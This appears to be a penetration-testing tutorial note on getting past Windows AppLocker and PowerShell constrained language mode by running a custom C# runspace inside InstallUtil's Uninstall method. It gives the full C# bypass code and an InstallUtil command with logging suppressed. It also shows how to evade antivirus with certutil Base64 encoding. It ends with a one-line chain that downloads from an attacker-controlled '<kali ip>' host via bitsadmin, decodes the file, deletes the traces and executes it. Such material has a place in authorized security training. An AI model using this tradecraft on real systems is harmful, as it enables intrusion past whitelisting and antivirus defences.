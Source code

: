 PowerShell.exe is essentially a GUI application handling input and output. The real functionality lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to create a runspace.
It is possible to leverage multithreading and parallel task execution through either Jobs or Runspaces. The APIs for creating a runspace are public and available to managed code written in C#.
This means we could code a C# application that creates a custom PowerShell runspace and executes our script inside it. This is beneficial since, custom runspaces are not restricted by AppLocker.
we can construct a constrained language mode bypass to allow arbitrary PowerShell execution.

We will have to bypass AppLocker executable rules to execute this C# code, we ca use native Windows applications( InstallUtil) that can be abused to bypass AppLocker by fooling the filter driver.
we will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. This Microsoft-supplied tool obviously has legitimate uses, but we can abuse it to execute arbitrary C# code.

To use InstallUtil in this way, we must put the code we want to execute inside either the install or uninstall methods of the installer class.

We are only going to use the uninstall method since the install method requires administrative privileges to execute.

create a new C# Console App project, we'll create a runspace through the CreateRunspace method of the System.Management.Automation.Runspaces namespace and Unfortunately, Visual Studio can not locate System.Management.Automation.Runspaces.
to resolve this, we must manually add the assembly reference, C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35 folder where we will select System.Management.Automation.dll.
Also refer System.Configuration.Install namespace, Assemblies menu > System.Configuration.Install

Although our code uses both the Main method and the Uninstall method, content in the Main method is not important in this example. However, the method itself must be present in the executable.
Since the content of the Main method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the Uninstall method, we can execute arbitrary C# code i.e custom runspace code. 

Custom runspace C# code inside Uninstall method:

      using System;
      using System.Management.Automation;
      using System.Management.Automation.Runspaces;
      using System.Configuration.Install;
      
      namespace Bypass
      {
          class Program
          {
              static void Main(string[] args)
              {
                  Console.WriteLine("This is the main method which is a decoy");
              }
          }
      
          [System.ComponentModel.RunInstaller(true)]
          public class Sample : System.Configuration.Install.Installer
          {
              public override void Uninstall(System.Collections.IDictionary savedState)
              {
                  String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
                  Runspace rs = RunspaceFactory.CreateRunspace();
                  rs.Open();
      
                  PowerShell ps = PowerShell.Create();
                  ps.Runspace = rs;
      
                  ps.AddScript(cmd);
      
                  ps.Invoke();
      
                  rs.Close();
              }
          }
      }

Before compiling the project, we'll switch from "Debug" to "Release" mode and select 64-bit for compilation.

To trigger our constrained language mode bypass code, we must invoke it through InstallUtil with /logfile to avoid logging to a file, /LogToConsole=false to suppress output on the console and /U to trigger the Uninstall method

    C:\Users\>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Bypass.exe

At this point, it would be possible to reuse this tradecraft with the Microsoft Word macros we developed earlier since they are not limited by AppLocker. Instead of using WMI to directly start a PowerShell process and download the shellcode runner from our Apache web server, we could make WMI execute InstallUtil and obtain the same result despite AppLocker.

The compiled C# file has to be on disk when InstallUtil is invoked. This requires two distinct actions. First, we must download an executable, and secondly, we must ensure that it is not flagged by antivirus, neither during the download process nor when it is saved to disk. we can use other native Windows binaries, which are whitelisted by default.

To attempt to bypass anitvirus, we are going to obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk. Well use the native certutil3 tool to perform the encoding and decoding and bitsadmin for the downloading.

Base64 encoding the executable with certutil: 

      cmd> certutil -encode C:\Users\\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt

Certutil can also be used to download files over HTTP(S), but this triggers antivirus due to its widespread malicious usage. 

Complete combined command to download, decode and execute the bypass: 

      cmd>bitsadmin /Transfer myJob http://<kali ip>/file.txt C:\users\enc.txt && certutil -decode C:\users\enc.txt C:\users\Bypass.exe && del C:\users\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\Bypass.exe


